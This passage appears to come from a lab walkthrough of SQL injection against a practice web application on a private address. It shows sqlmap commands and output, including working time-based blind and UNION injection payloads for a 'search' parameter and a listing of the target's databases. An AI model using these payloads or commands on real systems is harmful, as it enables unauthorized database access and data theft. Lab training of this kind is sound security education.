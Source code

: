 ```shell
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=123' AND (SELECT 3657 FROM (SELECT(SLEEP(5)))qbbB) AND 'stnZ'='stnZ

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: search=123' UNION ALL SELECT CONCAT(0x716b6b6a71,0x527466504e7a64425265527145465152684576647849594d6b4d4176444b6f616a76784d52667265,0x717a716271),NULL,NULL-- -
---
[07:08:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.10 (cosmic)
web application technology: Apache 2.4.34
back-end DBMS: MySQL >= 5.0.12
[07:08:48] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] webapphacking

[07:08:48] [INFO] fetched data logged to text files under '/home/v4ler1an/.local/share/sqlmap/output/172.16.86.146'

[*] ending @ 07:08:48 /2023-11-09/

```

**Second Way**

```shell
# execuet sqlmap with -u and --data to specify the parameter
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ sqlmap -u "http://172.16.86.146/welcome.php" --data "search=1" --dbs --batch 
        ___
       __H__                                                                                                                                                                                         
 ___ ___[']_____ ___ ___  {1.7.10#stable}                                                                                                                                                            
|_ -| . [']     | .'| . |                                                                                                                                                                            
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                            
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                         

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:10:01 /2023-11-09/

[07:10:01] [INFO] resuming back-end DBMS 'mysql' 
[07:10:01] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.16.86.146/login.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=osmmjlnrmbg...5bv57m2d9p'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=123' AND (SELECT 3657 FROM (SELECT(SLEEP(5)))qbbB) AND 'stnZ'='stnZ
```